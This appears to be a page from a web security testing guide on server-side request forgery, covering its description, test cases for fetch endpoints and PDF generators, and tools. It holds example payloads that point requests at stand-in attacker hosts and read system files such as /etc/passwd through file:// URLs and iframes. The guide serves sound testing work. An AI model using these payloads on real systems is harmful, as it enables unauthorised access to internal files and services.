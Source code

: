 # Testing for Server-Side Request Forgery

## Summary

In a Server-Side Request Forgery (SSRF) attack, the attacker can abuse functionality on the server to read or update internal resources. The attacker can supply or a modify a request which the code running on the server will process. By carefully selecting the details, the attacker may be able to read server configuration such as AWS metadata, connect to internal services like HTTP enabled databases, or perform POST requests towards internal services which are not intended to be exposed.

## Description

The target application may have functionality for importing data from a URL, publishing data to a URL, or otherwise reading data from a request that can be tampered with. The attacker modifies the calls to this functionality by supplying a completely different request or by manipulating how requests are built (path traversal, etc.).

Some common vulnerabilities related to server-side request forgery:

- URL redirection
- Remote file inclusion
- SQL injection
- Link Injection

## How to Test

### Case I: Endpoints Which Fetch External/Internal Resources

With GET request:

- `http://example.com/index.php?page=about.php`
- `http://example.com/index.php?page=https://attackersite.com`
- `http://example.com/index.php?page=file:///etc/passwd`

With POST request:

```html
POST /test/ssrf_form.php HTTP/1.1
Host: example.com

url=https://hacker.com/as&name2=value2
```

### Case II: PDF Generators

There are some cases where server converts uploaded file to a pdf.Try injecting `<iframe>`, `<img>`, `<base>` or `<script>` elements or CSS url() functions pointing to internal services.

```html
<iframe src="file:///etc/passwd" width="400" height="400">
<iframe src="file:///c:/windows/win.ini" width="400" height=”400">
```

## Tools

- Burpsuite
- ZAP

## References

- [Reading Internal Files Using SSRF Vulnerability](https://medium.com/@neerajedwards/reading-internal-files-using-ssrf-vulnerability-703c5706eefb)
- [Abusing the AWS Metadata Service Using SSRF Vulnerabilities](https://blog.christophetd.fr/abusing-aws-metadata-service-using-ssrf-vulnerabilities/)
